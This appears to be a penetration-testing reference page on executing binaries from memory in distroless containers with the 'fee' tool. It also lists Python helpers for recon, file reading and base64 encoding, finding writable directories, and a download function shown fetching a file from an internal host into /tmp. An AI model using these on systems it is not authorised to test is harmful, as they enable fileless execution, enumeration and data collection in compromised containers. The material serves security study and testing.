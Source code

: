 # Distroless python memory execution

## Exec from memory

Using the project **[fee](https://github.com/nnsee/fileless-elf-exec)** it's possible to generate python code that can be used to execute a binary from memory using the **memfd_create syscall**.

```bash
fee /bin/ls > output.py
```

## Python utilities

### Get OS user
```python
import os
return os.getlogin()
```

### Get uname
```python
import platform
return platform.uname()
```

### List dir

```python
import json
from os import walk

def ls(dir_path):
    files = next(walk(dir_path), (None, None, []))
    return json.dumps({"root": files[0], "dirs": files[1], "files": files[2]})
```

### Find file

```python
def find_file(fname):
    import os
    found_files = []
    def get_files(path, fname):
        if not os.path.isdir(path) and fname in os.path.basename(path):
            found_files.append(path)
        
        if os.path.isdir(path):
            if not os.listdir(path):
                return
            else:
                for item in os.listdir(path):
                    try:
                        get_files(os.path.join(path, item), fname)
                    except Exception:
                        pass
    get_files("/", fname)
    return found_files
```

### Get executables

```python
import os
def find_executables(path):
    executables = []
    def _find_executables(path):
        if not os.path.isdir(path) and os.access(path, os.X_OK):
            executables.append(os.path.basename(path))
        
        if os.path.isdir(path):
            if not os.listdir(path):
                return
            else:
                try:
                    for item in os.listdir(path):
                        _find_executables(os.path.join(path, item))
                except PermissionError:
                    pass
    _find_executables(path)
    return executables
```

### Read file

```python
def read_fileb(path):
    with open(path, "rb") as f:
        return f.read()
```

### Read file in base64

```python
import base64
def read_fileb64(path):
    with open(path, "rb") as f:
        return base64.b64encode(f.read()).decode()
```

### Get permissions of file

```python
import os
def get_perms(path):
    return oct(os.stat(path).st_mode)[-3:]
```

### Http request

```python
from urllib import request
def http_req(url):
    return request.urlopen(url).read().decode()
```

### Download and write file

```python
def download(url):
    from urllib import request
    r = request.urlopen(url)
    fname = url.split("/")[-1]
    print(f"Writting in {fname}")
    with open(f"/tmp/{fname}", "wb") as f:
        f.write(r.read())
# download("http://172.17.0.3:8989/usr/lib/aarch64-linux-gnu/libpcre2-8.so.0")
```

### Get writable folders

```python
import os
def find_writable_dir(path):
    writables = []
    def find_writable(path):
        if not os.path.isdir(path):
            return
        if os.access(path, os.W_OK):
            writables.append(path)
        if not os.listdir(path):
            return
        else:
            try:
                for item in os.listdir(path):
                    find_writable(os.path.join(path, item))
            except:
                pass
    find_writable(path)
    return writables
```